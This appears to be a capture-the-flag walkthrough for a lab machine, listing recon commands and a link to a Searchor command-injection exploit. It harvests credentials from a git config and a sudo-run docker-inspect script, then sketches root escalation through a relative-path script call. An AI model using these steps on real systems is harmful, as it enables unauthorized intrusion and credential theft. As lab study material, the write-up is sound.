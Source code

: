 ### Recon
- Gobuster `gobuster dir -u http://searcher.htb -w /usr/share/dirb/wordlists/big.txt` 
- Technology `Powered by Flask and Searchor 2.4.0` 
### User shell
- Search vulnerabilities of Searchor 2.4.0 -> Find github PoC https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

### Enum `.git/config`
```
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main

```
- Obtain password `jh1usoih2bkjaspwe92`. Try with `sudo -S -l` command
```
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```
### Get `gitea` admin password
- Use the python script as root
```
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
<in/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   5 months ago   Up 27 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   5 months ago   Up 27 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```
- Inspect the `gitea` container. Check usage on https://docs.docker.com/engine/reference/commandline/inspect/
```
svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
<er-inspect --format='{{json .Config}}' 960873171e2e
--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```
- Inspect the `mysql` container.
```
svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' f84a6b33fb5a
<er-inspect --format='{{json .Config}}' f84a6b33fb5a
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```
- Obtain 
	- GITEA__database__DB_TYPE=mysql
	- GITEA__database__HOST=db:3306
	- GITEA__database__NAME=gitea
	- GITEA__database__USER=gitea
	- GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh
	- MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF
	- MYSQL_USER=gitea
	- MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh
	- MYSQL_DATABASE=gitea
- Login in `gitea` with credential `administrator:yuiu1hoiu4i5ho1uh`
### Root shell
- Read `full-checkup.sh` first to check possible PE vector of writable `$PATH`
```bash
#!/bin/bash

/usr/bin/echo '[=] Docker conteainers'

/usr/bin/docker ps -s -q|/usr/bin/xargs -I {} /usr/bin/docker inspect --format='{ {{json .Name}} : {{json .State.Status}} }' {}|/usr/bin/jq
/usr/bin/echo ''

/usr/bin/echo '[=] Docker port mappings'

/usr/bin/docker inspect gitea --format='{{json .NetworkSettings.Ports}}'|/usr/bin/jq
/usr/bin/echo ''
#!/bin/bash

/usr/bin/echo '[=] Apache webhosts'
/usr/bin/wget http://searcher.htb/ -T 3 -O /dev/null -q
if [[ $? -eq "0" ]]; then
	/usr/bin/echo '[+] searcher.htb is up'
else
	/usr/bin/echo '[-] searcher.htb is down'
fi

/usr/bin/wget http://gitea.searcher.htb/ -T 3 -O /dev/null -q
if [[ $? -eq "0" ]]; then
        /usr/bin/echo '[+] gitea.searcher.htb is up'
else
        /usr/bin/echo '[-] gitea.searcher.htb is down'
fi
/usr/bin/echo ''

/usr/bin/echo '[=] PM2 processes'
/usr/local/bin/pm2 list
```
- All is absolute path -> No hope!
- Read other file, start with the python script
```python
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output


def process_action(action):
    if action == 'docker-inspect':
        try:
            _format = sys.argv[2]
            if len(_format) == 0:
                print(f"Format can't be empty")
                exit(1)
            container = sys.argv[3]
            arg_list = ['docker', 'inspect', '--format', _format, container]
            print(run_command(arg_list)) 
        
        except IndexError:
            print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")
            exit(1)
    
        except Exception as e:
            print('Something went wrong')
            exit(1)
    
    elif action == 'docker-ps':
        try:
            arg_list = ['docker', 'ps']
            print(run_command(arg_list)) 
        
        except:
            print('Something went wrong')
            exit(1)

    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
            

if __name__ == '__main__':

    try:
        action = sys.argv[1]
        if action in actions:
            process_action(action)
        else:
            raise IndexError

    except IndexError:
        print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
        print('')
        print('     docker-ps     : List running docker containers')
        print('     docker-inspect : Inpect a certain docker container')
        print('     full-checkup  : Run a full system checkup')
        print('')
        exit(1)
```
- Observe the `full-checkup.sh` script is called using relative path -> Call script from another folder contain a attacker-control `full-checkup.sh` to execute shell as root.